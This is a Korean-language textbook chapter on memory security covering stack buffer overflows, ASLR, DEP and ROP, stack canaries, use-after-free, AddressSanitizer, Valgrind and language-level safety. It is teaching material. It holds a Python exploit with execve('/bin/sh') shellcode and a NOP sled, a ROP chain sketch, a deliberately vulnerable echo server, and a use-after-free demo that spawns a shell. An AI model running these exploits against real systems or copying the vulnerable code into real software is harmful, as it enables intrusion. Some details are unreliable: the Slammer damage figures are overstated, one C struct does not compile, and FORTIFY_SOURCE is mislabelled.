

---
tags:
  - ASLR
  - AddressSanitizer
  - Buffer Overflow
  - Use-After-Free
  - balanced
  - deep-study
  - intermediate
  - 메모리 보안
  - 시스템프로그래밍
difficulty: INTERMEDIATE
learning_time: "8-12시간"
main_topic: "시스템 프로그래밍"
priority_score: 4
---

# Chapter 15-1: 메모리 보안 - 메모리 공격과 방어의 과학

## 이 문서를 읽고 나면 답할 수 있는 질문들

- Buffer Overflow 공격은 정확히 어떻게 이뤄지나요?
- ASLR, DEP, Stack Canary는 어떤 원리로 작동하나요?
- Use-After-Free 취약점을 어떻게 탐지하고 방어하나요?
- AddressSanitizer는 어떻게 메모리 오류를 찾아내나요?
- 언어별로 메모리 안전성이 어떻게 다른가요?

## 들어가며: 메모리 보안의 중요성

### 🔥 2003년 Slammer Worm: 376바이트가 인터넷을 마비시킨 날

2003년 1월 25일, 단 376바이트 크기의 코드가 전 세계 인터넷을 30분 만에 마비시켰습니다.

**Slammer Worm의 공격 메커니즘**:

```c
// Microsoft SQL Server의 취약한 코드 (의사 코드)
void vulnerable_function(char* user_data) {
    char buffer[60];  // 60바이트 버퍼

    // 길이 검증 없이 복사! 🚨
    strcpy(buffer, user_data);

    // user_data가 60바이트보다 크면?
    // 스택 메모리 오버플로우 발생!
}
```

**공격의 결과**:

```bash
# 30분 내에 75,000개 서버 감염
# 감염 속도: 매 8.5초마다 2배씩 증가
# 피해 규모: 전 세계 인터넷 트래픽 마비

감염된 시스템들:
- Bank of America ATM 시스템 다운
- Continental Airlines 항공편 취소
- 911 응급 서비스 마비
- 한국 전체 인터넷 12시간 마비
```

이 모든 재앙의 원인은? **단순한 Buffer Overflow 취약점** 하나였습니다.

### 🧠 메모리 공격의 진화



## Buffer Overflow: 메모리 공격의 고전

### 스택 기반 Buffer Overflow

**취약한 코드의 메모리 레이아웃**:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char* input) {
    char buffer[256];           // 256바이트 버퍼
    char status[16] = "SAFE";   // 상태 변수

    printf("Status: %s, ", status);
    strcpy(buffer, input);      // 🚨 위험한 복사!
    printf("Buffer: %s, ", buffer);
    printf("Status after copy: %s, ", status);
}

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("Usage: %s <input>, ", argv[0]);
        return 1;
    }

    vulnerable_function(argv[1]);
    return 0;
}
```

**스택 메모리 구조**:

```text
높은 주소
┌─────────────────┐
│   Return Address │ ← main()으로 돌아갈 주소
├─────────────────┤
│   Saved EBP     │ ← 이전 프레임 포인터
├─────────────────┤
│   status[16]    │ ← "SAFE" 문자열
├─────────────────┤
│   buffer[256]   │ ← 사용자 입력 저장
└─────────────────┘
낮은 주소
```

**공격 시나리오**:

```bash
# 1. 정상적인 입력 (255바이트 이하)
$ ./vulnerable "Hello World"
Status: SAFE
Buffer: Hello World
Status after copy: SAFE

# 2. 공격적인 입력 (300바이트)
$ ./vulnerable $(python -c "print('A'*300)")
Status: SAFE
Buffer: AAAAAAA...AAAAAAA
Status after copy: AAAAAAA  # 😱 status 변수가 덮어써짐!

# 3. 정교한 공격 (Return Address 덮어쓰기)
$ ./vulnerable $(python -c "print('A'*272 + '\x42\x42\x42\x42')")
Segmentation fault (core dumped)  # 0x42424242 주소로 점프 시도
```

### 실제 Exploit 코드 분석

```python
#!/usr/bin/env python3
# buffer_overflow_exploit.py

import struct
import subprocess

# 타겟 바이너리
target = "./vulnerable"

# 셸코드 (execve("/bin/sh", NULL, NULL))
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
    b"\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
)

# 메모리 레이아웃 분석
buffer_size = 256
status_size = 16
saved_ebp = 4
return_addr_offset = buffer_size + status_size + saved_ebp

# NOP sled (명령어 실행을 부드럽게 만들기 위한 패딩)
nop_sled = b"\x90" * 100  # NOP 명령어 100개

# 스택 주소 추정 (실제로는 더 정교한 방법 사용)
estimated_stack_addr = 0xbffff000

# Exploit payload 구성
payload = (
    nop_sled +                                    # NOP sled
    shellcode +                                   # 실행할 셸코드
    b"A" * (return_addr_offset - len(nop_sled) - len(shellcode)) +  # 패딩
    struct.pack("<I", estimated_stack_addr)       # 리턴 주소 덮어쓰기
)

print(f"Payload length: {len(payload)}")
print(f"Estimated stack address: 0x{estimated_stack_addr:08x}")

# 공격 실행
try:
    result = subprocess.run([target, payload], capture_output=True)
    print("Exit code:", result.returncode)
    if result.stdout:
        print("STDOUT:", result.stdout.decode())
    if result.stderr:
        print("STDERR:", result.stderr.decode())
except Exception as e:
    print(f"Error: {e}")
```

## 현대적 방어 기법들

### 1. ASLR (Address Space Layout Randomization)

**ASLR의 작동 원리**:

```c
// ASLR 없을 때: 예측 가능한 주소들
Stack:    0xbffff000 (항상 동일)
Heap:     0x08048000 (항상 동일)
Library:  0x40000000 (항상 동일)

// ASLR 있을 때: 랜덤한 주소들
Stack:    0xbf8a2000 (매번 다름)
Heap:     0x09a3f000 (매번 다름)
Library:  0x4a2b1000 (매번 다름)
```

**ASLR 효과 확인**:

```bash
# ASLR 상태 확인
$ cat /proc/sys/kernel/randomize_va_space
2  # 0=비활성화, 1=부분활성화, 2=완전활성화

# 같은 프로그램을 여러 번 실행해서 주소 확인
$ for i in {1..5}; do ./test_aslr; done
Stack address: 0xbff8a340
Stack address: 0xbf9c1340
Stack address: 0xbfea4340
Stack address: 0xbf872340
Stack address: 0xbfb19340
# 매번 다른 주소! ASLR 작동 중
```

### 2. DEP/NX (Data Execution Prevention / No-Execute)

**DEP의 메모리 권한 설정**:

```text
전통적인 메모리 (DEP 없음):
┌─────────────┬─────────────┬─────────────┐
│    Stack    │    Heap     │   Library   │
│    R/W/X    │    R/W/X    │    R/W/X    │
└─────────────┴─────────────┴─────────────┘
모든 메모리에서 코드 실행 가능 😱

DEP 적용된 메모리:
┌─────────────┬─────────────┬─────────────┐
│    Stack    │    Heap     │   Library   │
│     R/W     │     R/W     │     R/X     │
└─────────────┴─────────────┴─────────────┘
데이터 영역에서는 실행 불가 ✅
```

**DEP 우회 공격: ROP (Return-Oriented Programming)**:

```c
// 공격자는 기존 코드 조각들을 연결해서 원하는 동작 수행
// 예시: system("/bin/sh") 호출을 위한 ROP 체인

Gadget 1: pop %eax; ret        # EAX에 값 저장
Gadget 2: pop %ebx; ret        # EBX에 값 저장
Gadget 3: int 0x80             # 시스템 콜 호출
Gadget 4: "/bin/sh" string     # 문자열 데이터

ROP Chain:
[Buffer Overflow] → [Gadget 1 주소] → [11] → [Gadget 2 주소] → ["/bin/sh" 주소] → [Gadget 3 주소]
                                      ↑                        ↑
                                   execve 번호               파일 경로
```

### 3. Stack Canary (스택 카나리)

**카나리의 작동 원리**:

```c
// 컴파일러가 자동으로 삽입하는 보호 코드
void function_with_canary(char* input) {
    // 1. 카나리 값을 스택에 저장
    uint32_t canary = __stack_chk_guard;  // 랜덤한 값

    char buffer[256];

    // 2. 사용자 함수 실행
    strcpy(buffer, input);

    // 3. 함수 리턴 전에 카나리 값 검증
    if (canary != __stack_chk_guard) {
        __stack_chk_fail();  // 스택 오버플로우 감지!
        abort();
    }

    return;  // 카나리가 유효할 때만 리턴
}
```

**카나리 보호 활성화**:

```bash
# 카나리 보호 없이 컴파일
$ gcc -fno-stack-protector -o vulnerable vulnerable.c

# 카나리 보호와 함께 컴파일
$ gcc -fstack-protector-all -o protected vulnerable.c

# 공격 테스트
$ ./vulnerable $(python -c "print('A'*300)")
Segmentation fault  # 보호 없음

$ ./protected $(python -c "print('A'*300)")
*** stack smashing detected ***: ./protected terminated
Aborted (core dumped)  # 카나리가 공격 탐지!
```

## Use-After-Free: 현대적 메모리 공격

### Use-After-Free 취약점의 원리

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    void (*print_func)(struct user*);
} user_t;

void print_user(user_t* user) {
    printf("User: %s, ", user->name);
}

void evil_function(user_t* user) {
    printf("💀 You've been hacked!, ");
    system("/bin/sh");
}

user_t* create_user(const char* name) {
    user_t* user = malloc(sizeof(user_t));
    strncpy(user->name, name, sizeof(user->name) - 1);
    user->print_func = print_user;
    return user;
}

void delete_user(user_t* user) {
    free(user);  // 메모리 해제
    // 하지만 포인터를 NULL로 설정하지 않음! 🚨
}

int main() {
    user_t* user1 = create_user("Alice");
    user1->print_func(user1);  // 정상 작동: "User: Alice"

    delete_user(user1);        // 메모리 해제

    // 🚨 위험: 해제된 메모리에 접근 (Use-After-Free)
    user1->print_func(user1);  // Undefined Behavior!

    // 만약 공격자가 해제된 메모리를 조작했다면?
    // print_func 포인터가 evil_function을 가리킬 수 있음

    return 0;
}
```

### Use-After-Free 공격 시나리오

```c
// 고급 Use-After-Free 공격 예시
int main() {
    user_t* user1 = create_user("Alice");
    delete_user(user1);  // user1 메모리 해제

    // 공격자가 같은 크기의 메모리를 할당해서 조작
    user_t* malicious_data = malloc(sizeof(user_t));
    strcpy(malicious_data->name, "Hacker");
    malicious_data->print_func = evil_function;  // 악성 함수로 변경!

    // 해제된 메모리가 재할당되어 악성 데이터로 채워짐
    // 이제 user1->print_func는 evil_function을 가리킴
    user1->print_func(user1);  // 💀 악성 코드 실행!

    return 0;
}
```

**메모리 레이아웃 변화**:

```text
1. 정상 상황:
   user1 → [name: "Alice"][print_func: print_user]

2. free() 후:
   user1 → [freed memory - garbage data]

3. 공격자의 재할당:
   user1 → [name: "Hacker"][print_func: evil_function]

4. Use-After-Free 접근:
   user1->print_func(user1) → evil_function 실행! 💀
```

## 메모리 안전성 도구들

### AddressSanitizer (ASan): 메모리 오류 탐지기

**ASan 설치 및 사용**:

```bash
# ASan과 함께 컴파일
$ gcc -fsanitize=address -g -o test_asan vulnerable.c

# 실행하면 자동으로 메모리 오류 탐지
$ ./test_asan
==1234==ERROR: AddressSanitizer: heap-use-after-free on address 0x602000000010
READ of size 8 at 0x602000000010 thread T0
    #0 0x4008a3 in main vulnerable.c:45
    #1 0x7f8b1234567 in __libc_start_main

0x602000000010 is located 0 bytes inside of 40-byte region [0x602000000010,0x602000000038)
freed by thread T0 here:
    #0 0x4a0b2c in free (/usr/lib/x86_64-linux-gnu/libasan.so)
    #1 0x400876 in delete_user vulnerable.c:32

previously allocated by thread T0 here:
    #0 0x4a0d1e in malloc (/usr/lib/x86_64-linux-gnu/libasan.so)
    #1 0x400823 in create_user vulnerable.c:24
```

**ASan이 탐지하는 오류들**:

```c
// 1. Buffer Overflow
char buffer[10];
buffer[15] = 'A';  // ❌ heap-buffer-overflow

// 2. Use-After-Free
char* ptr = malloc(10);
free(ptr);
ptr[0] = 'A';      // ❌ heap-use-after-free

// 3. Double Free
free(ptr);
free(ptr);         // ❌ attempting double-free

// 4. Memory Leak
char* ptr = malloc(100);
return 0;          // ❌ memory leak (free() 누락)
```

### Valgrind: 종합적인 메모리 분석

```bash
# Valgrind로 메모리 오류 체크
$ valgrind --tool=memcheck --leak-check=full ./vulnerable

==1234== Memcheck, a memory error detector
==1234== Invalid write of size 1
==1234==    at 0x400567: main (vulnerable.c:12)
==1234==  Address 0x5204040 is 0 bytes after a block of size 10 alloc'd
==1234==    at 0x4C2AB80: malloc (in vgpreload_memcheck.so)

==1234== HEAP SUMMARY:
==1234==     in use at exit: 40 bytes in 1 blocks
==1234==   total heap usage: 2 allocs, 1 frees, 50 bytes allocated
==1234==
==1234== 40 bytes in 1 block are definitely lost in loss record 1 of 1
==1234==    at 0x4C2AB80: malloc (in vgpreload_memcheck.so)
==1234==    by 0x400534: create_user (vulnerable.c:24)
```

## 언어별 메모리 안전성

### C/C++: 수동 메모리 관리의 위험성

```c
// C: 모든 메모리 관리가 프로그래머 책임
void risky_c_code() {
    char* buffer = malloc(100);

    // 위험 요소들:
    strcpy(buffer, user_input);     // Buffer overflow 가능
    char* ptr2 = buffer;
    free(buffer);                   // buffer 해제
    printf("%s", ptr2);             // Use-after-free!
    free(buffer);                   // Double free!
    // free() 호출 누락 시 메모리 누수
}

// C++11 이후: RAII와 스마트 포인터로 개선
#include <memory>
void safer_cpp_code() {
    auto buffer = std::make_unique<char[]>(100);
    // 자동으로 해제됨, 하지만 여전히 buffer overflow 위험

    auto shared_ptr = std::make_shared<MyClass>();
    // 참조 카운팅으로 안전한 해제
}
```

### Rust: 컴파일 타임 메모리 안전성

```rust
// Rust: 컴파일러가 메모리 안전성 보장
fn safe_rust_code() {
    let mut buffer = String::with_capacity(100);
    buffer.push_str("Hello");

    // 이런 코드는 컴파일 에러!
    let ptr1 = &buffer;
    let ptr2 = &mut buffer;  // ❌ 가변/불변 참조 동시 불가

    // Use-after-free도 컴파일 에러!
    let reference;
    {
        let temp = String::from("temp");
        reference = &temp;  // ❌ temp의 생명주기가 짧음
    }
    println!("{}", reference);  // ❌ 컴파일 에러
}

// 안전한 Rust 코드
fn rust_safety_demo() {
    let data = vec![1, 2, 3, 4, 5];

    // 소유권 이동
    let moved_data = data;
    // println!("{:?}", data);  // ❌ 컴파일 에러: data 이미 이동됨

    // 빌림 (borrowing)
    let borrowed = &moved_data;
    println!("Borrowed: {:?}", borrowed);  // ✅ 안전함

    // 자동 해제 - 개발자가 신경 쓸 필요 없음
} // moved_data가 여기서 자동으로 해제됨
```

### Go: 가비지 컬렉터와 안전한 포인터

```go
// Go: GC로 메모리 누수 방지, 하지만 여전히 일부 위험 존재
package main

import (
    "fmt"
    "unsafe"
)

func safeGoCode() {
    // 메모리 할당/해제는 GC가 자동 처리
    data := make([]byte, 1000)
    fmt.Printf("Data: %v, ", data)
    // 별도로 free() 호출 불필요
}

func unsafeGoCode() {
    data := []int{1, 2, 3}

    // unsafe 패키지 사용 시 위험 요소 존재
    ptr := unsafe.Pointer(&data[0])

    // 타입 안전성 우회 가능 (위험!)
    str := (*string)(ptr)
    fmt.Println(*str)  // 예측 불가능한 결과
}
```

## 실전 메모리 보안 실습

### 실습 1: Buffer Overflow 탐지와 방어

```c
// vulnerable_server.c - 취약한 네트워크 서버
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

void handle_client(int client_socket) {
    char buffer[256];
    char response[512];

    // 클라이언트로부터 데이터 수신
    int bytes_received = recv(client_socket, buffer, 1024, 0);  // 🚨 위험!
    buffer[bytes_received] = '\0';

    // 응답 생성
    sprintf(response, "Echo: %s", buffer);  // 🚨 또 다른 위험!

    send(client_socket, response, strlen(response), 0);
    close(client_socket);
}

int main() {
    int server_socket = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in server_addr = {
        .sin_family = AF_INET,
        .sin_addr.s_addr = INADDR_ANY,
        .sin_port = htons(8080)
    };

    bind(server_socket, (struct sockaddr*)&server_addr, sizeof(server_addr));
    listen(server_socket, 5);

    printf("Server listening on port 8080..., ");

    while (1) {
        struct sockaddr_in client_addr;
        socklen_t client_len = sizeof(client_addr);

        int client_socket = accept(server_socket,
                                 (struct sockaddr*)&client_addr,
                                 &client_len);

        handle_client(client_socket);
    }

    return 0;
}
```

**보안 강화된 버전**:

```c
// secure_server.c - 보안이 강화된 버전
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

#define MAX_BUFFER_SIZE 256
#define MAX_RESPONSE_SIZE 512

void handle_client_secure(int client_socket) {
    char buffer[MAX_BUFFER_SIZE];
    char response[MAX_RESPONSE_SIZE];

    // 안전한 데이터 수신
    int bytes_received = recv(client_socket, buffer, MAX_BUFFER_SIZE - 1, 0);
    if (bytes_received < 0) {
        perror("recv failed");
        return;
    }

    buffer[bytes_received] = '\0';

    // 안전한 문자열 조작
    int result = snprintf(response, MAX_RESPONSE_SIZE, "Echo: %.*s",
                         MAX_BUFFER_SIZE - 10, buffer);

    if (result < 0 || result >= MAX_RESPONSE_SIZE) {
        const char* error_msg = "Response too long";
        send(client_socket, error_msg, strlen(error_msg), 0);
    } else {
        send(client_socket, response, result, 0);
    }

    close(client_socket);
}
```

### 실습 2: Use-After-Free 탐지 도구 구현

```c
// safe_allocator.c - 간단한 안전한 할당자 구현
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct allocation {
    void* ptr;
    size_t size;
    int is_freed;
    const char* file;
    int line;
    struct allocation* next;
} allocation_t;

static allocation_t* allocations = NULL;

// 디버그 정보와 함께 메모리 할당
#define safe_malloc(size) debug_malloc(size, __FILE__, __LINE__)
#define safe_free(ptr) debug_free(ptr, __FILE__, __LINE__)

void* debug_malloc(size_t size, const char* file, int line) {
    void* ptr = malloc(size);
    if (!ptr) return NULL;

    allocation_t* alloc = malloc(sizeof(allocation_t));
    alloc->ptr = ptr;
    alloc->size = size;
    alloc->is_freed = 0;
    alloc->file = file;
    alloc->line = line;
    alloc->next = allocations;
    allocations = alloc;

    printf("ALLOC: %p (%zu bytes) at %s:%d, ", ptr, size, file, line);
    return ptr;
}

void debug_free(void* ptr, const char* file, int line) {
    if (!ptr) return;

    allocation_t* alloc = allocations;
    while (alloc) {
        if (alloc->ptr == ptr) {
            if (alloc->is_freed) {
                printf("🚨 DOUBLE FREE detected: %p at %s:%d, ",
                      ptr, file, line);
                printf("   Previously freed at %s:%d, ",
                      alloc->file, alloc->line);
                abort();
            }

            alloc->is_freed = 1;
            alloc->file = file;
            alloc->line = line;

            // 메모리를 특별한 패턴으로 덮어쓰기
            memset(ptr, 0xDE, alloc->size);  // "DEAD" 패턴

            printf("FREE: %p at %s:%d, ", ptr, file, line);
            free(ptr);
            return;
        }
        alloc = alloc->next;
    }

    printf("🚨 INVALID FREE detected: %p at %s:%d (not allocated), ",
          ptr, file, line);
    abort();
}

void check_use_after_free(void* ptr, const char* file, int line) {
    allocation_t* alloc = allocations;
    while (alloc) {
        if (alloc->ptr == ptr && alloc->is_freed) {
            printf("🚨 USE-AFTER-FREE detected: %p at %s:%d, ",
                  ptr, file, line);
            printf("   Memory was freed at %s:%d, ", alloc->file, alloc->line);
            abort();
        }
        alloc = alloc->next;
    }
}

// 사용 예시
int main() {
    char* buffer1 = safe_malloc(100);
    char* buffer2 = safe_malloc(200);

    strcpy(buffer1, "Hello");
    printf("Buffer1: %s, ", buffer1);

    safe_free(buffer1);
    // buffer1은 이제 해제됨

    // Use-after-free 시도 탐지
    check_use_after_free(buffer1, __FILE__, __LINE__);
    // printf("Buffer1: %s, ", buffer1);  // 이 줄 주석 해제하면 탐지됨

    safe_free(buffer2);
    // safe_free(buffer2);  // 이 줄 주석 해제하면 double free 탐지

    return 0;
}
```

### 실습 3: 컴파일러 보안 플래그 활용

```bash
#!/bin/bash
# security_compile_test.sh - 다양한 보안 플래그 테스트

echo "=== 보안 컴파일러 플래그 테스트 ==="

# 1. 기본 컴파일 (보안 기능 없음)
echo "1. 기본 컴파일:"
gcc -o vulnerable_basic vulnerable.c
echo "   바이너리 크기: $(stat -c%s vulnerable_basic) bytes"

# 2. 스택 보호 활성화
echo "2. Stack Protector:"
gcc -fstack-protector-all -o vulnerable_canary vulnerable.c
echo "   바이너리 크기: $(stat -c%s vulnerable_canary) bytes"

# 3. 포트란 소스 보호 (버퍼 오버플로우 감지)
echo "3. FORTIFY_SOURCE:"
gcc -O2 -D_FORTIFY_SOURCE=2 -o vulnerable_fortify vulnerable.c
echo "   바이너리 크기: $(stat -c%s vulnerable_fortify) bytes"

# 4. PIE (Position Independent Executable) 활성화
echo "4. PIE (ASLR 지원):"
gcc -fPIE -pie -o vulnerable_pie vulnerable.c
echo "   바이너리 크기: $(stat -c%s vulnerable_pie) bytes"

# 5. 모든 보안 기능 활성화
echo "5. 모든 보안 기능:"
gcc -fstack-protector-all -O2 -D_FORTIFY_SOURCE=2 -fPIE -pie \
    -Wl,-z,relro -Wl,-z,now -o vulnerable_secure vulnerable.c
echo "   바이너리 크기: $(stat -c%s vulnerable_secure) bytes"

echo ""
echo "=== 보안 기능 확인 ==="

# checksec 도구로 보안 기능 확인 (설치 필요: apt install checksec)
if command -v checksec &> /dev/null; then
    echo "Basic binary:"
    checksec --file=vulnerable_basic
    echo ""
    echo "Secure binary:"
    checksec --file=vulnerable_secure
else
    echo "checksec 도구가 설치되지 않음. 'apt install checksec' 설치 권장"
fi

# readelf로 보안 기능 수동 확인
echo ""
echo "=== ELF 헤더 보안 정보 ==="
echo "PIE 확인 (Type should be DYN):"
readelf -h vulnerable_secure | grep Type

echo ""
echo "스택 실행 불가 확인 (GNU_STACK should have no 'E' flag):"
readelf -l vulnerable_secure | grep -A1 GNU_STACK
```

## 메모리 보안 모범 사례

### 1. 안전한 문자열 함수 사용

```c
// ❌ 위험한 함수들
strcpy(dest, src);           // 길이 확인 없음
strcat(dest, src);           // 길이 확인 없음
sprintf(buffer, fmt, ...);   // 버퍼 오버플로우 가능
gets(buffer);                // 매우 위험! (deprecated)

// ✅ 안전한 대안들
strncpy(dest, src, sizeof(dest) - 1);
dest[sizeof(dest) - 1] = '\0';

strncat(dest, src, sizeof(dest) - strlen(dest) - 1);

snprintf(buffer, sizeof(buffer), fmt, ...);

fgets(buffer, sizeof(buffer), stdin);
```

### 2. 메모리 해제 후 포인터 무효화

```c
// ❌ 위험한 패턴
free(ptr);
// ptr은 여전히 해제된 메모리를 가리킴

// ✅ 안전한 패턴
free(ptr);
ptr = NULL;  // 더 이상 유효하지 않음을 명시

// 매크로로 자동화
#define SAFE_FREE(ptr) do { free(ptr); ptr = NULL; } while(0)

SAFE_FREE(buffer);  // 자동으로 NULL 설정
```

### 3. 경계 검사와 입력 검증

```c
// 안전한 배열 접근 함수
int safe_array_access(int* array, size_t array_size, size_t index) {
    if (!array) {
        fprintf(stderr, "Error: NULL array pointer, ");
        return -1;
    }

    if (index >= array_size) {
        fprintf(stderr, "Error: Index %zu out of bounds (size: %zu), ",
                index, array_size);
        return -1;
    }

    return array[index];
}

// 안전한 문자열 복사 함수
int safe_string_copy(char* dest, size_t dest_size, const char* src) {
    if (!dest || !src) {
        return -1;  // NULL 포인터 체크
    }

    if (dest_size == 0) {
        return -1;  // 대상 버퍼 크기 체크
    }

    size_t src_len = strlen(src);
    if (src_len >= dest_size) {
        return -1;  // 소스가 너무 김
    }

    memcpy(dest, src, src_len + 1);  // 널 터미네이터 포함
    return 0;
}
```

## 핵심 요점 정리

### 🎯 메모리 보안의 원칙들

1. **방어적 프로그래밍**: 모든 입력을 의심하고 검증하라
2. **경계 검사**: 배열과 버퍼 접근 시 항상 범위 확인
3. **안전한 함수 사용**: 위험한 함수 대신 안전한 대안 선택
4. **도구 활용**: ASan, Valgrind 등으로 자동 탐지
5. **컴파일러 보안 기능**: 모든 보안 플래그 활성화

### ⚠️ 흔한 실수들

```c
// ❌ 흔한 메모리 보안 실수들
char buffer[256];
gets(buffer);                    // 크기 제한 없는 입력
strcpy(buffer, user_input);      // 길이 검증 없는 복사
sprintf(result, "%s", input);    // 출력 버퍼 크기 미고려

char* ptr = malloc(100);
free(ptr);
printf("%s", ptr);               // Use-after-free
free(ptr);                       // Double free

// ✅ 올바른 접근들
char buffer[256];
fgets(buffer, sizeof(buffer), stdin);
buffer[strcspn(buffer, ", ")] = '\0';  // 개행 문자 제거

if (strlen(user_input) < sizeof(buffer)) {
    strcpy(buffer, user_input);
}

snprintf(result, sizeof(result), "%s", input);

char* ptr = malloc(100);
free(ptr);
ptr = NULL;
```

---

## 다음 단계

메모리 보안의 기초를 마스터했다면, 이제 네트워크 레벨에서의 보안 위협과 대응 방법을 배워보겠습니다:

**Next**: [15.2 네트워크 보안](./17-11-network-security.md)에서 TLS/SSL부터 DDoS 방어까지 네트워크 보안의 모든 것을 다룹니다.

**Key Takeaway**: "메모리는 거짓말하지 않지만, 프로그래머는 실수할 수 있습니다. 도구와 원칙으로 실수를 방지하세요." 🛡️

## 📚 관련 문서

### 📖 현재 문서 정보

- **난이도**: INTERMEDIATE
- **주제**: 시스템 프로그래밍
- **예상 시간**: 8-12시간

### 🎯 학습 경로

- [📚 INTERMEDIATE 레벨 전체 보기](../learning-paths/intermediate/)
- [🏠 메인 학습 경로](../learning-paths/)
- [📋 전체 가이드 목록](../README.md)

### 📂 같은 챕터 (chapter-17-security-engineering)

- [Chapter 15.2 네트워크 보안 개요](./17-11-network-security.md)
- [Chapter 15-2a: 네트워크 보안 기초와 위협 환경](./17-01-network-fundamentals.md)
- [Chapter 15-2b: TLS/SSL 프로토콜과 암호화 통신](./17-12-tls-protocols.md)
- [Chapter 15-2c: DDoS 공격 탐지와 방어 시스템](./17-13-ddos-defense.md)
- [Chapter 15-2d: Zero Trust 아키텍처와 고급 모니터링](./17-40-zero-trust-monitoring.md)

### 🏷️ 관련 키워드

`Buffer Overflow`, `Use-After-Free`, `ASLR`, `AddressSanitizer`, `메모리 보안`

### ⏭️ 다음 단계 가이드

- 실무 적용을 염두에 두고 프로젝트에 적용해보세요
- 관련 도구들을 직접 사용해보는 것이 중요합니다
